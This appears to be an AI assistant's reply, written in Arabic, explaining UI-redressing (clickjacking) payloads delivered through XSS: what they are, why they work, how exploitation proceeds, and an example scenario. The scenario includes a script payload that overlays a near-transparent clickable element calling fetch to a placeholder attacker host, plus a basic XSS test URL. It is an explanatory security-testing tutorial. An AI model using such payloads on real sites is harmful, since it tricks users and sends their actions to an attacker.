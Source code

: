 بناءً على طلبك لشرح **الحقن المستخدمة لتزييف واجهة المستخدم (UI Redressing Payloads)** باستخدام نفس طريقة الشرح المقدمة (التي تتضمن أقسامًا مثل "ما المقصود؟"، "لماذا يعمل؟"، "كيف يتم الاستغلال؟"، والخطوات العملية)، سأقدم شرحًا مفصلاً ومنظمًا لهذه الخطوة في اختبار ثغرات Cross-Site Scripting (XSS). سأغطي جميع المحاولات الممكنة لاستغلال ثغرة XSS لتزييف واجهة المستخدم (UI Redressing أو Clickjacking)، مع التركيز على تقنيات مثل إنشاء عناصر وهمية، تغطية محتوى الصفحة، أو خداع المستخدم للنقر على عناصر ضارة. سيتم تقسيم المحاولات إلى فئات (مثل إعادة توجيه النقر، التلاعب بالعناصر البصرية، وتزييف النماذج). سيتم تضمين المحتوى في علامة `<xaiArtifact>` كما هو مطلوب، مع معرف جديد لأن هذا طلب مستقل يركز على خطوة محددة. سأحافظ على الشرح باللغة العربية بأسلوب واضح ومنظم، متجنبًا تنسيق Markdown خارج العلامة بناءً على طلبك السابق.

---

## فهم الخطوة: الحقن المستخدمة لتزييف واجهة المستخدم (UI Redressing Payloads)

### ما المقصود؟
الحقن المستخدمة لتزييف واجهة المستخدم، والمعروفة أيضًا باسم **Clickjacking** أو **UI Redressing**، هي شيفرات JavaScript تُستخدم في استغلال ثغرات Cross-Site Scripting (XSS) لخداع المستخدم للتفاعل مع عناصر واجهة المستخدم بشكل غير مقصود. تهدف هذه الحقن إلى جعل المستخدم ينقر على أزرار أو روابط ضارة، أو يقوم بإدخال بيانات في نماذج مزيفة، أو يتفاعل مع محتوى يبدو شرعيًا ولكنه في الواقع يخدم أغراض المهاجم. تُستخدم هذه التقنية عادةً لتنفيذ إجراءات مثل إعادة توجيه النقر، سرقة البيانات، أو تغيير إعدادات المستخدم، وتعتمد على التلاعب بـ DOM لتغيير مظهر الصفحة أو سلوكها.

### لماذا يعمل؟
- **تحكم JavaScript في DOM**: يتيح JavaScript تعديل العناصر البصرية (مثل إنشاء أزرار، تغيير الأنماط، أو إخفاء/إظهار العناصر)، مما يسمح بتزييف واجهة المستخدم.
- **خداع المستخدم**: يمكن جعل عناصر ضارة تبدو شرعية باستخدام CSS (مثل وضع عنصر شفاف فوق زر حقيقي) أو إعادة تصميم النماذج.
- **نقص الحماية**: العديد من التطبيقات لا تستخدم حماية ضد Clickjacking مثل رأس `X-Frame-Options` أو سياسة `Content Security Policy (CSP)`، مما يسمح بإدراج محتوى ضار.
- **تفاعل المستخدم**: تعتمد هذه الهجمات على تفاعل المستخدم (مثل النقر أو إدخال البيانات)، وهو أمر شائع في التطبيقات التفاعلية.
- **تنفيذ مخفي**: يمكن تنفيذ الحقن تلقائيًا (مثل إنشاء عنصر عند التحميل) أو عند تفاعل معين، مما يجعل الهجوم غير ملحوظ.

### كيف يتم الاستغلال؟
- يتم إدخال شيفرة JavaScript في نقطة إدخال عرضة لـ XSS (مثل معلمات URL، حقول نماذج، أو تعليقات) لتنفيذها في متصفح الضحية.
- تُصمم الشيفرة لتعديل واجهة المستخدم عبر:
  - وضع عناصر شفافة أو مخفية فوق عناصر شرعية لإعادة توجيه النقر.
  - إنشاء نماذج أو أزرار مزيفة لخداع المستخدم.
  - تغيير مظهر الصفحة (مثل إخفاء محتوى أو إظهار رسائل مضللة).
- يتم مراقبة استجابة المستخدم لتأكيد نجاح الهجوم:
  - **نجاح (True)**: المستخدم ينقر على عنصر ضار، يُرسل بيانات إلى خادم المهاجم، أو يتم تنفيذ إجراء غير مقصود (مثل تغيير إعدادات).
  - **فشل (False)**: لا يتفاعل المستخدم، أو تمنع الحماية (مثل `X-Frame-Options`) الهجوم.
- تُكيَّف الحقن لتكون جذابة بصريًا (مثل محاكاة واجهة تسجيل الدخول) أو لتجنب الكشف (مثل تقليل التغييرات البصرية).

### السناريو
لنفترض أنك اكتشفت ثغرة XSS في موقع إلكتروني يسمح بتنفيذ شيفرة JavaScript عبر حقل تعليق أو معلمة URL (مثل `https://example.com/?search=<script>alert('XSS')</script>`). تريد الآن استخدام هذه الثغرة لخداع المستخدم للنقر على زر ضار (مثل زر "إعادة تعيين كلمة المرور" المزيف) أو إدخال بيانات في نموذج مزيف يُرسل إلى خادمك. تقوم بإدخال حقنة مثل `<script>document.body.innerHTML='<div style="position:absolute;top:0;opacity:0.1" onclick="fetch(\'http://attacker.com/log\')">اضغط هنا</div>'</script>` لإنشاء عنصر شفاف فوق الصفحة. إذا نقر المستخدم على العنصر، يتم إرسال طلب إلى خادمك، مما يؤكد نجاح تزييف واجهة المستخدم.

---
